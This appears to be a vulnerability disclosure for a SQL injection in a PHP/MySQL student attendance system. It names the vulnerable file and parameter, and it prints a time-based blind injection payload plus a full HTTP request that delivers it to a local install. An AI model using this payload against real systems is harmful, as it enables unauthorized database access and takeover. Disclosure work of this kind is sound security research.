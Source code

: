 # Simple Student Attendance System has a vulnerability of SQL injection
Source code download：https://www.sourcecodester.com/php/17018/simple-student-attendance-system-using-php-and-mysql.html

version：2023/11/30

Vulnerability description: The system has a SQL injection vulnerability, and attackers can obtain database information and website control permissions by inserting malicious SQL statements.

The cause of the vulnerability: The vulnerability occurs on line 165 of classes\actions.class.php. The input from the user has not been filtered, resulting in the execution of malicious SQL statements
![](https://cdn.jsdelivr.net/gh/G1uneko/picture_blog@main/img/202312111608669.jpg)

Vulnerability verification: After setting up the system, access the local port 80
![](https://cdn.jsdelivr.net/gh/G1uneko/picture_blog@main/img/202312111609232.png)

At the attendance function, capture and save the traffic package for attendance
![](https://cdn.jsdelivr.net/gh/G1uneko/picture_blog@main/img/202312111609233.png)

Pass the payload in the student_id[] parameter:
```php
83'and(select*from(select+sleep(3))a/**/union/**/select+1)='
```

![](https://cdn.jsdelivr.net/gh/G1uneko/picture_blog@main/img/202312111609234.png)

The response will pause for a multiple of 3 seconds, which is 6 seconds, successfully verifying that there is a SQL injection vulnerability at this location.

payload:

```php
POST /php-attendance/ajax-api.php?action=save_attendance HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 150
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh-TW;q=0.9,zh;q=0.8,en-US;q=0.7,en;q=0.6
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: PHPSESSID=rbh6d8kdgfbbvame4b8ul5ujmn
Referer: http://127.0.0.1/php-attendance/?page=attendance&class_id=1&class_date=2023-12-05
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip

class_date=2023-12-05&class_id=1&student_id%5B%5D=83%27and%28select%2Afrom%28select%2Bsleep%283%29%29a%2F%2A%2A%2Funion%2F%2A%2A%2Fselect%2B1%29%3D%27
```

sqlmap verification：

![](https://cdn.jsdelivr.net/gh/G1uneko/picture_blog@main/img/202312111609236.png)

